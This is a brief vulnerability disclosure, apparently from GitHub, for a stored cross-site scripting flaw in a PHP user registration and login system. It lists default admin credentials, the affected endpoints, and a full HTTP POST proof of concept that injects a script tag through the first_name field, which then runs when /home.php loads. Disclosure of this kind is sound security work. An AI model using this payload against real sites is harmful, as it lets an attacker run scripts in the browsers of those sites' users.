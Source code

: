 ## User Registration and Login System by rems has xss (Stored XSS)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html


username && password : admin/admin
dbname = registration_login_db

Vulnerability File: /endpoint/add-user.php ;/home.php


[+] payload: contact_number=1&email=testing%40example.com&first_name=LgyxmpHT--><ScRiPt%20>alert(9221)</ScRiPt><!--&last_name=LgyxmpHT&password=u]H[ww6KrA9F.x-F&username=LgyxmpHT

First:

```
POST /endpoint/add-user.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.6.1/
Content-Length: 164
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 192.168.6.1
Connection: Keep-alive

contact_number=1&email=testing%40example.com&first_name=LgyxmpHT--><ScRiPt%20>alert(9221)</ScRiPt><!--&last_name=LgyxmpHT&password=u]H[ww6KrA9F.x-F&username=LgyxmpHT
```

Then access /home.php 

![Alt text](image-1.png)